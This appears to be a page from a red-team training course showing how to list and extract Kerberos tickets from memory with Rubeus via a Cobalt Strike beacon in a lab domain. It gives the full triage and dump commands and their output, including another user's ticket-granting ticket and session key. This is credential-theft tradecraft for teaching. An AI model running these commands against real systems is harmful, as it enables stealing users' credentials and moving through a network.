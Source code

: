 One unfortunate consequence of the aforementioned techniques is that they obtain handles to sensitive resources, which can be audited and logged quite easily.  [Rubeus](https://github.com/GhostPack/Rubeus) is a C# tool designed for Kerberos interaction and abuses, using legitimate Windows APIs.

Its `triage` command will list all the Kerberos tickets in your current logon session and if elevated, from all logon sessions on the machine.
```
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe triage

Action: Triage Kerberos Tickets (All Users)

[*] Current LUID    : 0x14b5fa

 ----------------------------------------------------------------------------------------------------------------- 
 | LUID     | UserName                     | Service                                       | EndTime             |
 ----------------------------------------------------------------------------------------------------------------- 
 | 0x14bf5e | bfarmer @ DEV.CYBERBOTIC.IO  | krbtgt/DEV.CYBERBOTIC.IO                      | 9/1/2022 6:10:14 PM |
 | 0x14bf5e | bfarmer @ DEV.CYBERBOTIC.IO  | LDAP/dc-2.dev.cyberbotic.io/dev.cyberbotic.io | 9/1/2022 6:10:14 PM |
 | 0x14bf5e | bfarmer @ DEV.CYBERBOTIC.IO  | HTTP/squid.dev.cyberbotic.io                  | 9/1/2022 6:10:14 PM |
 | 0x14b5fa | bfarmer @ DEV.CYBERBOTIC.IO  | krbtgt/DEV.CYBERBOTIC.IO                      | 9/1/2022 6:10:07 PM |
 | 0x14b5fa | bfarmer @ DEV.CYBERBOTIC.IO  | cifs/dc-2.dev.cyberbotic.io                   | 9/1/2022 6:10:07 PM |
 | 0x14b5fa | bfarmer @ DEV.CYBERBOTIC.IO  | ldap/dc-2.dev.cyberbotic.io                   | 9/1/2022 6:10:07 PM |
 | 0x14b5fa | bfarmer @ DEV.CYBERBOTIC.IO  | cifs/dc-2.dev.cyberbotic.io/dev.cyberbotic.io | 9/1/2022 6:10:07 PM |
 | 0x14b5fa | bfarmer @ DEV.CYBERBOTIC.IO  | LDAP/dc-2.dev.cyberbotic.io/dev.cyberbotic.io | 9/1/2022 6:10:07 PM |
 | 0x7049f  | jking @ DEV.CYBERBOTIC.IO    | krbtgt/DEV.CYBERBOTIC.IO                      | 9/1/2022 5:29:20 PM |
 | 0x3e4    | wkstn-2$ @ DEV.CYBERBOTIC.IO | krbtgt/DEV.CYBERBOTIC.IO                      | 9/1/2022 5:28:29 PM |
 | 0x3e4    | wkstn-2$ @ DEV.CYBERBOTIC.IO | HTTP/squid.dev.cyberbotic.io                  | 9/1/2022 5:28:29 PM |
 | 0x3e4    | wkstn-2$ @ DEV.CYBERBOTIC.IO | cifs/dc-2.dev.cyberbotic.io                   | 9/1/2022 5:28:29 PM |
 | 0x3e4    | wkstn-2$ @ DEV.CYBERBOTIC.IO | ldap/dc-2.dev.cyberbotic.io/dev.cyberbotic.io | 9/1/2022 5:28:29 PM |
 | 0x3e7    | wkstn-2$ @ DEV.CYBERBOTIC.IO | krbtgt/DEV.CYBERBOTIC.IO                      | 9/1/2022 5:28:29 PM |
 | 0x3e7    | wkstn-2$ @ DEV.CYBERBOTIC.IO | HTTP/squid.dev.cyberbotic.io                  | 9/1/2022 5:28:29 PM |
 | 0x3e7    | wkstn-2$ @ DEV.CYBERBOTIC.IO | cifs/dc-2.dev.cyberbotic.io/dev.cyberbotic.io | 9/1/2022 5:28:29 PM |
 | 0x3e7    | wkstn-2$ @ DEV.CYBERBOTIC.IO | WKSTN-2$                                      | 9/1/2022 5:28:29 PM |
 | 0x3e7    | wkstn-2$ @ DEV.CYBERBOTIC.IO | LDAP/dc-2.dev.cyberbotic.io                   | 9/1/2022 5:28:29 PM |
 | 0x3e7    | wkstn-2$ @ DEV.CYBERBOTIC.IO | LDAP/dc-2.dev.cyberbotic.io/dev.cyberbotic.io | 9/1/2022 5:28:29 PM |
 | 0x3e7    | wkstn-2$ @ DEV.CYBERBOTIC.IO | wkstn-2$@DEV.CYBERBOTIC.IO                    | 9/1/2022 7:43:42 AM |
 ----------------------------------------------------------------------------------------------------------------- 
```
  

Each user has their own logon session, which is represented by a LUID (locally unique identifier).  In this example, we're operating within the LUID of bfarmer, 0x14b5fa.  The WKSN-2$ machine account has its own session, 0x3e4; and jking also has a session, 0x7049f.  Tickets for the service name krbtgt are Ticket Granting Tickets (TGTs) and others are Ticket Granting Service Tickets (TGSs).  The different ticket types are described in more detail in the **Kerberos** chapter.

Rubeus' `dump` command will extract these tickets from memory - but because it uses WinAPIs, it does not need to open suspicious handles to LSASS.  If not elevated, we can only pull tickets from our own session.  Without any further arguments, Rubeus will extract all tickets possible, but we can be more specific by using the `/luid` and `/service` parameters.

For example, if we only wanted the TGT for jking, we can do:
```
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe dump /luid:0x7049f /service:krbtgt

Action: Dump Kerberos Ticket Data (All Users)

[*] Target service  : krbtgt
[*] Target LUID     : 0x7049f
[*] Current LUID    : 0x14b5fa

  UserName                 : jking
  Domain                   : DEV
  LogonId                  : 0x754c2
  UserSID                  : S-1-5-21-569305411-121244042-2357301523-1105
  AuthenticationPackage    : Kerberos
  LogonType                : Batch
  LogonTime                : 10/13/2022 9:36:19 AM
  LogonServer              : DC-2
  LogonServerDNSDomain     : DEV.CYBERBOTIC.IO
  UserPrincipalName        : jking@cyberbotic.io


    ServiceName              :  krbtgt/DEV.CYBERBOTIC.IO
    ServiceRealm             :  DEV.CYBERBOTIC.IO
    UserName                 :  jking
    UserRealm                :  DEV.CYBERBOTIC.IO
    StartTime                :  10/13/2022 9:36:20 AM
    EndTime                  :  10/13/2022 7:36:20 PM
    RenewTill                :  10/20/2022 9:36:20 AM
    Flags                    :  name_canonicalize, pre_authent, initial, renewable, forwardable
    KeyType                  :  aes256_cts_hmac_sha1
    Base64(key)              :  EIkrCAL8wx98PVRBOZGDKC6Y0KReSosWtvXyv6rIefI=
    Base64EncodedTicket   :

      doIFuj [...snip...] lDLklP
```
  

This will output the ticket(s) in base64 encoded format.

  You may also add the `/nowrap` option which will format the base64 encoding onto a single line - this makes copy & pasting much easier.